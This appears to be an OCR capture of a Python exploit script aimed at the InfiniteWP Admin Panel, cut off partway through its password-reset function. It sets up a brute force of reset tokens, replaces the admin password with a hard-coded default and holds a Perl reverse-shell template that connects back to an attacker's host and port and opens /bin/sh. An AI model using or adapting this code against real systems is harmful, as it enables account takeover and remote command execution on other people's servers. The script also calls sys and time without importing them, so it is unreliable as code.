 ```
import requests 
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
from concurrent.futures import as_completed
from requests_futures.sessions import FuturesSession
import logging
import logging.handlers
import datetime
from argparse import ArgumentParser
from hashlib import sha1
import socket
import telnetlib
from threading import Thread
### default settings
DEFAULT_LPORT = 9111
DEFAULT_MICROS = 1000000
DEFAULT_NEW_PASSWORD = "msCodWbsdxGGETswnmWJyANE/x2j6d9G"
PERL_REV_SHELL_TPL = "perl -e 'use Socket;$i=\"%s\";$p=%d;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,\">&S\");open(STDOUT,\">&S\");open(STDERR,\">&S\");exec(\"/bin/sh -i\");};'"
### argument parsing
parser = ArgumentParser()
parser.add_argument("-rh", "--rhost", dest="rhost", required=True,
            help="remote InfiniteWP Admin Panel webroot, e.g.: http://10.10.10.11:8080/iwp")
parser.add_argument("-e", "--email", dest="email",
            help="target email", required=True)
parser.add_argument("-u", '--user-id', dest="uid",
            help="user_id (in the default installation it is 1, if not set will try 1..5)")
parser.add_argument("-lh", '--lhost', dest="lhost",
            help="local ip to use for remote shell connect-back",
            required=True)
parser.add_argument("-ts", '--token-timestamp', dest="start_ts",
            help="the unix timestamp to use for the token bruteforce, e.g. 1597322728")
parser.add_argument("-m", "--micros", dest="micros_elapsed",
            help="number of microseconds to test (if not set 1000000 (1 second))",
            default=DEFAULT_MICROS)
parser.add_argument("-lp", '--lport', dest="lport",
            help="local port to use for remote shell connect-back",
            default=DEFAULT_LPORT)
parser.add_argument("-p", '--new-password', dest="new_password",
            help="new password (if not set will configure '{}')".format(DEFAULT_NEW_PASSWORD),
            default=DEFAULT_NEW_PASSWORD)
parser.add_argument("-d", "--debug", dest="debug_mode",
            action="store_true",
            help="enable debug mode")
args = parser.parse_args()
log = logging.getLogger(__name__)
if args.debug_mode:
    log.setLevel(logging.DEBUG)
else:
    log.setLevel(logging.INFO)
handler = logging.StreamHandler(sys.stdout)
handler.setFormatter(logging.Formatter('%(asctime)s - %(levelname)s - %(message)s'))
log.addHandler(handler)
### actual exploit logic
def init_pw_reset():
    global args
    start_clock = time.perf_counter()
    start_ts = datetime.datetime.utcnow().replace(tzinfo=datetime.timezone.utc)
    log.debug("init pw reset start ts: {}".format(start_ts))
    response = requests.post("{}/login.php".format(args.rhost), verify=False,
    data={
        "email": args.email, 
```